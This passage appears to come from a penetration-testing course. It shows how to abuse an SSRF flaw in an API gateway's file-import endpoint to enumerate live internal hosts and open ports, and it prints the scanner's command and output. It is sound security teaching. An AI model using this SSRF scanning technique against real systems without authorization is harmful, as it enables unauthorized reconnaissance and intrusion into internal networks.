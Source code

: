 ### 9.4.6. Host Enumeration

Now that we've identified a live IP address, let's copy our script to a new file named ssrf_subnet_scanner.py and modify it to scan just the subnet we previously identified for live IPs. It does not matter which port number we use in this scan. We can identify live hosts even if they refuse connections on the chosen port.

```
kali@kali:~$ ./ssrf_subnet_scanner.py -t http://apigateway:8000/files/import --timeout 5
Trying host: 172.16.16.1
        8000     OPEN - returned 404
Trying host: 172.16.16.2
        8000     OPEN - returned 404
Trying host: 172.16.16.3
        8000     Connection refused, could be live host
Trying host: 172.16.16.4
        8000     Connection refused, could be live host
Trying host: 172.16.16.5
        8000     Connection refused, could be live host
Trying host: 172.16.16.6
        8000     Connection refused, could be live host
Trying host: 172.16.16.7
        8000     {"errors":[{"message":"connect EHOSTUNREACH 172.16.16.7:8000","extensions":{"code":"INTERNAL_SERVER_ERROR"}}]}
Trying host: 172.16.16.8
        8000     {"errors":[{"message":"connect EHOSTUNREACH 172.16.16.8:8000","extensions":{"code":"INTERNAL_SERVER_ERROR"}}]}
```

> Listing 35 - Subnet scanning results

We can kill the script once we start receiving multiple "EHOSTUNREACH" errors. A quick Google search indicates this error message might mean the host couldn't find a route to a given IP address. Since we have several live hosts to work with, we can ignore any IP addresses that resulted in the "EHOSTUNREACH" error.

If you don't find any live hosts, re-run the script with a larger timeout value.

Based on the response values, we can assume the first six hosts are valid. Let's modify the script to scan for common ports on those hosts, using the same list of ports found in Listing 28. We can limit the amount of extraneous data by filtering "connection refused" messages.

```
kali@kali:~$ ./ssrf_subnet_scanner.py -t http://apigateway:8000/files/import --timeout 5
Trying host: 172.16.16.1
        22       ???? - returned parse error, potentially open non-http
        8000     OPEN - returned 404
Trying host: 172.16.16.2
        8000     OPEN - returned 404
        8001     OPEN - returned permission error, therefore valid resource
Trying host: 172.16.16.3
        5432     OPEN - socket hang up, likely non-http
Trying host: 172.16.16.4
        8055     OPEN - returned permission error, therefore valid resource
Trying host: 172.16.16.5
        9000     OPEN - returned 404
Trying host: 172.16.16.6
        6379     ???? - returned parse error, potentially open non-http
```
